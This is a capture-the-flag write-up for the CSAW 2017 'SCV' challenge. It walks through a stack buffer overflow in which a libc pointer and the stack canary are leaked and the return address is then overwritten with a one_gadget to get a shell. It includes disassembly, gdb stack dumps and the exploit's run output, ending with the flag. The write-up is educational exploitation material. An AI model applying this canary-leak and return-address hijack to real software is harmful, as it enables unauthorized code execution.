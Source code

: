 ```yaml
---
title: "CSAW - SCV (100pt)"
description: "Buffer overflow with cookie sniffing"
date: 2017-09-19
tags: ["exploit"]
---
```


# SCV (100pt)

**`Exploitation`**

**Files:**

* [scv](/code/2017/csaw/scv)
* [scv_libc](/code/2017/csaw/scv_libc)
* Exploit script: [solveSCV.py](/code/2017/csaw/solveSCV.py)

# Summary

At first glance, this looks like a simple buffer overflow ROP attack.
However, in order to reach the return address, you must overwrite a stack canary that will trigger an exception.

In order to perform the attack, you have to leak the stack cookie so that you can replace it during the full overwrite.

# Exploit

The buffer overflow occurs here:

```x86asm
0000000000400cba         lea        rax, qword [rbp+var_B0]
0000000000400cc1         mov        edx, 0xf8                                   ; argument "nbyte" for method j_read
0000000000400cc6         mov        rsi, rax                                    ; argument "buf" for method j_read
0000000000400cc9         mov        edi, 0x0                                    ; argument "fildes" for method j_read
0000000000400cce         call       j_read
```

The call to `j_read` reads up to `0xf8` into a buffer on the stack allowing for an overflow.

If we examine the stack in gdb, we see the following:

```
(gdb) x/24gx $rsi
0x7fffffffe480:	0x0000000000400930	0x00007ffff7dd4ac0
0x7fffffffe490:	0x00007ffff7dc9780	0x0000000000400930
0x7fffffffe4a0:	0x0000000000602080	0x00007ffff76c6299
0x7fffffffe4b0:	0x0000000000000001	0x00007fffffffe4e0
0x7fffffffe4c0:	0x0000000000601df8	0x0000000000400e1b
0x7fffffffe4d0:	0x0000000000000000	0x000000010000ffff
0x7fffffffe4e0:	0x00007fffffffe4f0	0x0000000000400e31
0x7fffffffe4f0:	0x0000000000000002	0x0000000000400e8d
0x7fffffffe500:	0x00ff000000000000	0x0000000000000000
0x7fffffffe510:	0x0000000000400e40	0x00000000004009a0
0x7fffffffe520:	0x00007fffffffe610	0xe60f91baa684cd00
0x7fffffffe530:	0x0000000000400e40	0x00007ffff76ac830
```

The region from `0x7fffffffe480` to `0x7fffffffe520` is the buffer we are writing to. Before we have written to it, it's filled with semi-random stack data.

At address `0x7fffffffe528` we see the value `0xe60f91baa684cd00` – the stack canary. Notice how the LSB of this value is a null byte. That is intended to prevent accidental leakage of the canary with string methods (since strings are traditionally null terminated).

After that we see the typical stored base pointer and return address.

# Step 1: Leak a libc pointer

The buffer is initially filled with old addresses from execution that happens before our `main` subroutine gets control. Some of those values will vary run to run but hopefully we can find a libc pointer that appears to stay constant (relative to libc base).

I found that the value at `&buff + 40` was sufficient to leak the libc base.

In order to read this value, we must first fill up the buffer with non-null bytes up to the value we want to read. After doing this, the stack looks like this:

```
(gdb) x/24gx $rsi
0x7fffffffe480:	0x6161616161616161	0x6161616161616161
0x7fffffffe490:	0x6161616161616161	0x6161616161616161
0x7fffffffe4a0:	0x0a61616161616161	0x00007ffff76c6299
0x7fffffffe4b0:	0x0000000000000001	0x00007fffffffe4e0
0x7fffffffe4c0:	0x0000000000601df8	0x0000000000400e1b
0x7fffffffe4d0:	0x0000000000000000	0x000000010000ffff
0x7fffffffe4e0:	0x00007fffffffe4f0	0x0000000000400e31
0x7fffffffe4f0:	0x0000000000000002	0x0000000000400e8d
0x7fffffffe500:	0x00ff000000000000	0x0000000000000000
0x7fffffffe510:	0x0000000000400e40	0x00000000004009a0
0x7fffffffe520:	0x00007fffffffe610	0xe60f91baa684cd00
0x7fffffffe530:	0x0000000000400e40	0x00007ffff76ac830
```

*Note: to write 40 bytes, we actually write 39 bytes ('a' in this case) plus a newline*

After this, we can print out the buffer and the stack address will be printed out after our 'a's.

# Step 2: Leak the stack cookie

In the same way, we can read the stack cookie by writing non-null bytes up to the start. However, we must take into consideration that the stack cookie starts with a null byte. 

Therefore, we will actually write one more additional byte over the LSB of the stack cookie and just remember that it starts with a null byte when we decode it.

*Note: even though we are overwriting the stack cookie, we don't trigger an exception here because we are inside a loop that won't return until we tell it to.*

For this part of the overwrite, our stack looks like this:

```
(gdb) x/24gx $rsi
0x7ffe3c32a890:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8a0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8b0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8c0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8d0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8e0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8f0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a900:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a910:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a920:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a930:	0x6161616161616161	0xb91f46933007280a
0x7ffe3c32a940:	0x0000000000400e40	0x00007ff5e1c48830
```

At this point, the stack cookie is corrupted. Therefore we must return it to normal when we overwrite the return address.

# Step 3: Careful overwrite

Now we perform a ROP attack to overwrite the return address with a magic gadget (found by one_gadget).

After that overwrite our stack looks like:

```
(gdb) x/24gx $rsi
0x7ffe3c32a890:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8a0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8b0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8c0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8d0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8e0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a8f0:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a900:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a910:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a920:	0x6161616161616161	0x6161616161616161
0x7ffe3c32a930:	0x6161616161616161	0xb91f469330072800
0x7ffe3c32a940:	0x6262626262626262	0x00007ff5e1d19117
```

Notice that our stack cookie has been un-corrupted and we now are pointing to a different point in libc.

```
python solveSCV.py
[+] Opening connection to pwn.chal.csaw.io on port 3764: Done
libc base: 0x7f1c7fdf2000
cookie: 001dccec0249d35b
[*] Switching to interactive mode
[*]BYE ~ TIME TO MINE MIENRALS...
$ cat flag
flag{sCv_0n1y_C0st_50_M!n3ra1_tr3at_h!m_we11}
```
